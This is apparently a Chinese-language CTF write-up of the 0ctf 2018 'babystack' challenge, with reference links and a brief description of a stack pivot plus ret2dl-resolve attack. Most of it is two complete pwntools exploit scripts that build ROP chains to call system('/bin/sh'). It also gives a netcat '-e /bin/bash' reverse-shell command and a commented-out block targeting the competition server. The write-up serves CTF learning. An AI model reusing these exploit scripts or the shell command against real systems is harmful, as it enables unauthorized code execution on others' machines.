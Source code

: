 ### 0ctf/tctf babystack

+ [_dl_runtime_resolve源码](https://code.woboq.org/userspace/glibc/sysdeps/i386/dl-trampoline.S.html)
+ [Return-to-dl-resolve(相当好的一篇理解性文章)](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)
+ [babystack手工](https://www.anquanke.com/post/id/103736)
+ [babystack远程](http://blog.plusls.cn/ctf/0ctf-2018/pwn/babystack/)
+ [babystack用roputils库](https://www.jianshu.com/p/1ade01da9b6b)
+ [ROP之return to dl-resolve](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)

只有一个函数，明显就是一个栈溢出

<img src="/images/posts/0ctf/babystack/1525447243561.png" >

思路，因为溢出的字节不多，而且没有任何泄露函数，所以考虑先进行栈迁移，然后用ret2dlsolve技巧来getshell
可以先到这个[非常详细的学习地址](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)学习然后就可以进行相应的构造


脚本1(不用roputils库)：
**注：这个仅是本地getshell**
```
# -*- coding:utf-8 -*-
from pwn import *
#context.log_level = 'debug'
p = process('./babystack')
elf = ELF('./babystack')

read_plt = elf.plt['read']
alarm_plt = elf.plt['alarm']
pop_ebp_ret = 0x080484eb
ppp_ret = 0x080484e9
pp_ebp_ret = 0x080484ea
leave_ret = 0x08048455
stack_size = 0x800
bss_addr = 0x0804a020   #readelf -S babystack | grep ".bss"
base_stage = bss_addr + stack_size
plt_0 = 0x80482f0 # objdump -d -j .plt babystack
rel_plt = 0x80482b0 # objdump -s -j .rel.plt babystack
index_offset = (base_stage + 28) - rel_plt
alarm_got = elf.got['alarm']
print "alarm_got: ",hex(alarm_got)
print "alarm_plt: ",hex(alarm_plt)
print "read_plt: ",hex(read_plt)
dynsym = 0x080481CC
dynstr = 0x0804822C
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = index_dynsym << 8 | 0x7
fake_reloc = p32(alarm_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)



payload = 'a'*0x28 + p32(bss_addr)
payload += p32(read_plt) + p32(leave_ret) + p32(0) + p32(bss_addr) +     p32(36) 
raw_input("go:")
p.send(payload)

#fake stack 1 bss_addr
payload1 = 'aaaa' #pop ebp
payload1 += p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100)
payload1 += p32(pop_ebp_ret) + p32(base_stage) #fake stack again
payload1 += p32(leave_ret) #leave: mov esp,ebp; pop ebp
p.send(payload1)


cmd = "/bin/sh"
#fake stack 2 base_stage
payload2 = 'bbbb'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'aaaa'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc #base_stage+28
payload2 += 'b' * align
payload2 += fake_sym #base_stage+36
payload2 += "system\x00"
payload2 += 'a' * (80 - len(payload2))
payload2 += cmd +'\x00'
payload2 += 'a' * (100 - len(payload2))
print len(payload2)
p.sendline(payload2)
p.interactive()
```

```
nc 127.0.0.1 7788 -e /bin/bash
nc -l 7788
```

### 用roputils库的脚本



```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import roputils
#from hashlib import sha256

#p = process('./babystack')
p = remote('127.0.0.1',7788)
elf = ELF('./babystack')
'''
p = remote('202.120.7.202',6666)

random = p.recv(16)
print "[*]random"+random
flag=0
print random
for i in range(36,126):
        if flag==1:
                break
        for j in range(36,126):
                if flag==1:
                        break
                for k in range(36,126):
                        if flag==1:
                                break
                        for n in range(36,126):
                                str=chr(i)+chr(j)+chr(k)+chr(n)
                                if sha256(random+str).digest().startswith('\0\0\0'):
                                        hash=str
                                        print hash
                                        flag=1
                                        break

p.send(hash)
'''
payload = "A"*40
payload += p32(0x804a500)
payload += p32(0x8048446)
payload += p32(80)                 # exact length of stage 2 payload
payload += "B"*(64-len(payload))

rop = roputils.ROP('./babystack')
addr_bss = rop.section('.bss')
payload += "A"*40
payload += p32(0x804a500)

# Read the fake tabs from payload2 to bss
payload += rop.call("read", 0, addr_bss, 150)

# Call dl_resolve with offset to our fake symbol
payload += rop.dl_resolve_call(addr_bss+60, addr_bss)

# Create fake rel and sym on bss
payload2 = rop.string("/bin/sh")
payload2 += rop.fill(60, payload2)                        # Align symbol to bss+60
payload2 += rop.dl_resolve_data(addr_bss+60, "system")    # Fake r_info / st_name
payload2 += rop.fill(150, payload2)

payload += payload2
payload = payload.ljust(0x100, "\x00")
print len(payload)
p.sendline(payload)
#p.send("A"*44 + flat(rop) + "A"*(256-44-len(flat(rop))))
p.interactive()
```

